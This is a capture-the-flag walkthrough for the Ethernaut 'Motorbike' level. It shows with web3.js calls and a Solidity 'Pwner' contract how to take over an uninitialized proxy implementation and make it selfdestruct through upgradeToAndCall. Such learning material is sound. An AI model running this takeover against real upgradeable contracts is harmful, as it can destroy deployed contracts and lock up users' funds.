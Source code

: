 # [25. Motorbike](https://ethernaut.openzeppelin.com/level/0x58Ab506795EC0D3bFAE4448122afa4cDE51cfdd2)

We have another proxy-based puzzle here. This time, we see that [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967) is used, which means it is safe against storage collisions. More specifically, EIP-1967 defines a standard storage slot that the proxy uses. As per this standard, the logic contract is stored at `bytes32(uint256(keccak256('eip1967.proxy.implementation')) - 1)`, which is what we see in the code too.

When we examine the Motorbike contract, we realize that it is just a proxy with its logic being the Engine contract. Engine contract is [Initializable](https://docs.openzeppelin.com/upgrades-plugins/1.x/writing-upgradeable#initializers). There is a question mark here though: the `initializer` is called from the proxy, so the affected storage is that of the Motorbike, not the Engine! Consequently, Motorbike should have the results of initialization in it's storage, while Engine should not.

The `Initializable` has 2 storage variables, both 1-byte booleans. The Engine contract has two variables, a 20-byte address and a 32-byte unsigned integer. As per the EVM optimization, 2 booleans and 1 address will all occupy the same slot. So we should see an address and two boolean values side by side at the 0th position.

```js
// Proxy storage
await web3.eth.getStorageAt(contract.address, 0)
// '0x0000000000000000000058ab506795ec0d3bfae4448122afa4cde51cfdd20001'

// Engine address
const _IMPLEMENTATION_SLOT = '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc'
const engineAddress = await web3.eth.getStorageAt(
  contract.address,
  web3.utils.hexToNumberString(_IMPLEMENTATION_SLOT)
)

await web3.eth.getStorageAt(engineAddress, 0)
// '0x0000000000000000000000000000000000000000000000000000000000000000'
```

Indeed, the initializer has mistakenly wrote to the proxy storage! The Engine contract has no idea that it is initialized, so we can call the initialize function there.

```js
await web3.eth.sendTransaction({
  from: player,
  to: engine,
  data: '0x8129fc1c' // initialize()
})
```

If we check the storage of Engine again, we will see that it is updated. We are now the `upgrader` and we can call the `updateToAndCall` function with a new contract of our own, and give `data` to make it `selfdestruct`.

We can write a small contract such as:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity <0.7.0;

contract Pwner {
  function pwn() public {
    selfdestruct(address(0));
  }
}
```

The objective is to make this the Engine of the Motorbike, so we will make the call to the proxy. Since our function signature will have no match there, it will be delegated to the Engine and there the new implementation will be our `Pwner` contract. Afterwards, `pwn()` will be called and the new implementation will `selfdestruct`.

```js
const _function = {
  "inputs": [
    { 
      "name": "newImplementation",
      "type": "address"
    },
    { 
      "name": "data",
      "type": "bytes"
    }
  ],
  "name": "upgradeToAndCall", 
  "type": "function"
};
const _parameters = [
  '0xad3359eAbEec598f7eBEDdb14BC056ca57fa32B1', // Pwner
  '0xdd365b8b', // pwn()
];
const _calldata = web3.eth.abi.encodeFunctionCall(_function, _parameters);
await web3.eth.sendTransaction({
  from: player, 
  to: engineAddress, // not Motorbike!
  data: _calldata
})
```

We are sending this transaction to Engine instead of Motorbike, because the Engine itself is like a proxy too. Notice in the `_upgradeToAndCall` internal function it makes a `delegatecall` to the `newImplementation`.

What `selfdestruct` within the `newImplementation` achieves here is that it actually destroys the calling Engine, not the Pwner contract! This is again because a `delegatecall` is used. If we check the Engine contract address with block explorer, we will see that it did indeed `selfdestruct`.


